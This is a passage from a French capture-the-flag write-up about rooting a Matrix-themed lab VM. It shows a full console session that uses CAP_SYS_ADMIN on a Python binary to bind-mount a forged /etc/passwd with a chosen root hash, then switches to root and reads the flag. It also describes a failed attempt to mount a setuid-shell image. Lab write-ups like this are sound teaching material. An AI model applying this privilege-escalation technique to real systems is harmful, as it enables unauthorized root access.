 Mon idée était de créer un FS dans un fichier (`dd` pour créer un fichier vide de 10Mo, `mkfs.ext3` pour le formater) et de placer ensuite un shell setuid root dedans. Plus qu'à copier ensuite le fichier sur la VM et le monter pour obtenir le sésame, sauf que...

`OSError: [Errno 15] Error mounting file.fs (ext3) on /mnt with options 'rw': Block device required`

La fonction de la libc s'attend à recevoir un périphérique et non un fichier...

Du coup je me suis rabattu sur l'astuce de [Linux Capabilities - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_admin) qui consiste à binder un fichier `passwd` par dessus le vrai `/etc/passwd` pour se connecter avec l'utilisateur `root` et un mot de passe de notre choix :

```console
cypher@morpheus:~$ cp /etc/passwd .
cypher@morpheus:~$ openssl passwd -1 -salt abc devloop
$1$abc$I96LD.QLSgd3iCCrM7yNv1
cypher@morpheus:~$ vi passwd  # modifier l'entrée root pour remplacer 'x' par le hash
cypher@morpheus:~$ /usr/bin/python3-9
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from ctypes import *
>>> libc = CDLL("libc.so.6")
>>> libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
>>> MS_BIND = 4096
>>> source = b"/home/cypher/passwd"
>>> target = b"/etc/passwd"
>>> filesystemtype = b"none"
>>> options = b"rw"
>>> mountflags = MS_BIND
>>> libc.mount(source, target, filesystemtype, mountflags, options)
0
>>> 
cypher@morpheus:~$ su root
Password: 
root@morpheus:/home/cypher# cd /root
root@morpheus:~# ls
FLAG.txt
root@morpheus:~# cat FLAG.txt 
You've won!

Let's hope Matrix: Resurrections rocks!
```

La requête d'authentification qu'on a redirigée était bien effectuée depuis un docker :

```bash
root@morpheus:~# docker ps
CONTAINER ID   IMAGE              COMMAND      CREATED         STATUS        PORTS     NAMES
c08573ce98d3   infinite-request   "/main.sh"   12 months ago   Up 23 hours             infinite-request
root@morpheus:~# docker exec -it c08573ce98d3 /bin/bash
root@c08573ce98d3:/# cat main.sh 
#!/bin/bash

while :
do
   /usr/bin/basic-auth-client
   sleep 60

done
```
